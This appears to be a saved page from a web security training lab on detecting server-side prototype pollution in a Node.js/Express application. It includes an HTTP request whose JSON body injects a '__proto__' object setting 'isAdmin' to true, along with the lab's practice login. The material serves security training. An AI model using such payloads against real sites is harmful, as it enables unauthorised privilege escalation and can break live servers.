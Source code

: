~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /my-account/change-address HTTP/2
...

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"e6Z5ouDA9AodwILfR7nGgH2nYPtPLzyE","__proto__":{        "isAdmin":true    }}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

07 Detecting server-side prototype pollution without polluted property reflection
=================================================================================

This lab is built on Node.js and the Express framework. It is vulnerable to
server-side prototype pollution because it unsafely merges user-controllable
input into a server-side JavaScript object.

To solve the lab, confirm the vulnerability by polluting Object.prototype in a
way that triggers a noticeable but non-destructive change in the server's
behavior. As this lab is designed to help you practice non-destructive detection
techniques, you don't need to progress to exploitation.

You can log in to your own account with the following credentials: wiener:peter

Note: When testing for server-side prototype pollution, it's possible to break
application functionality or even bring down the server completely. If this
happens to your lab, you can manually restart the server using the button
provided in the lab banner. Remember that you're unlikely to have this option
when testing real websites, so you should always use caution.

References:

-   https://portswigger.net/web-security/prototype-pollution/server-side

![img](media/f2c9016bdc59c93c619f5312fd8b0f1b.png)
